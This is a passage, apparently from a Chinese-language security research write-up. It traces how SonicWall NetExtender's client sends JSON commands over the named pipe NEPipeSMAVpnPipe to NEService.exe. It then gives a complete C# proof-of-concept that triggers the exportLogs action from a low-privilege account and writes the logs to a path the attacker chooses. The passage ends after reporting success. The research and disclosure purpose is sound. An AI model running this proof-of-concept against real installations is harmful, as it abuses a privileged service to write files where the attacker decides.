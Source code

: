   
最后，SendJsonStr()方法会将我们的JSON对象、exportLogs消息类型以及一个超时时间传递给VpnSendMessageOnPipe()方法。  
  
```
public bool SendJsonStr(string JSON, MessageCallBackData.MessageType msgType, int timeout) {     MessageHandler.m_sendMessageMutex.WaitOne();     bool result = Pipe.VpnSendMessageOnPipe(JSON, msgType, timeout);     MessageHandler.m_sendMessageMutex.ReleaseMutex();     return result; } 
```  
  
  
从高层逻辑来看，VpnSendMessageOnPipe()方法会连接到由NEService.exe暴露的命名管道NEPipeSMAVpnPipe，并将我们的JSON对象传入其中。  
  
```
public static bool VpnSendMessageOnPipe(string JSONStr, MessageCallBackData.MessageType msgType, int timeout) {     bool result = false;     try {         NamedPipeClientStream namedPipeClientStream = new NamedPipeClientStream(".", Pipe.DEF_SEND_VPN_PIPE_NAME, PipeDirection.Out);         namedPipeClientStream.Connect(timeout);         using(StreamWriter streamWriter = new StreamWriter(namedPipeClientStream, Encoding.Default, 4096)) {             streamWriter.AutoFlush = true;             streamWriter.Write(JSONStr);         }         namedPipeClientStream.Close();         if (msgType != MessageCallBackData.MessageType.queryStatus && msgType != MessageCallBackData.MessageType.queryLogs) {             Pipe.m_lastMsgType = msgType;             NETraceLogs.Write(NETraceLogs.LogLevel.Debug, NETraceLogs.FormType.NEUnknown, string.Format("SendMsg:{0}", Pipe.m_lastMsgType.ToString()));         }         result = true;     } catch (Exception ex) {         Console.WriteLine("Failed to write to the VPN Service pipe: " + ex.ToString());     }     return result; } 
```  
  
  
最终，我们可以将所有环节整合起来，通过编程方式触发exportLogs功能，而无需依赖NetExtender的用户界面。以下是为此编写的C[#代码]()  
：  
  
```
using System; using System.IO; using System.IO.Pipes; using Newtonsoft.Json.Linq; using Newtonsoft.Json; using System.Text; classProgram{     static void Main(string[] args)    {         string action = "exportLogs";          string source = "\\\\.\\pipe\\NEPipeStClient";         string path = "C:\\users\\lowpriv\\Downloads\\foo";         string guiLog = "";         JObject dataObject = new JObject         {             { "path", path },             { "guiLog", guiLog }         };         JObject finalJson = new JObject         {             { "action", action },             { "source", source },             { "data", dataObject }         };         string jsonString = finalJson.ToString(Formatting.Indented);         Console.WriteLine("[*] Attempting to exportLogs via NEPipeSMAVpnPipe.");         Console.WriteLine("[*] Sending JSON: ");         Console.WriteLine(jsonString);                 if (SendPayloadToVPNPipe(finalJson.ToString(Formatting.None), 3000))         {             Console.WriteLine("[+] Successfully called exportLogs via NEPipeSMAVpnPipe.");         }         else        {             Console.WriteLine("[!] Failed to call exportLogs via NEPipeSMAVpnPipe.");         }     }     public static bool SendPayloadToVPNPipe(string JSONStr, int timeout)    {         bool result = false;         try        {             NamedPipeClientStream namedPipeClientStream = new NamedPipeClientStream(".", "NEPipeSMAVpnPipe", PipeDirection.Out);             namedPipeClientStream.Connect(timeout);             using (StreamWriter streamWriter = new StreamWriter(namedPipeClientStream, Encoding.Default, 4096))             {                 streamWriter.AutoFlush = true;                 streamWriter.Write(JSONStr);             }             namedPipeClientStream.Close();             result = true;         }         catch (Exception ex)         {             Console.WriteLine("Failed to write to the VPN Service pipe: " + ex.ToString());         }         return result;     } } 
```  
  
  
编译并执行代码后，我们观察到日志已成功导出并写入我们指定的路径：  
  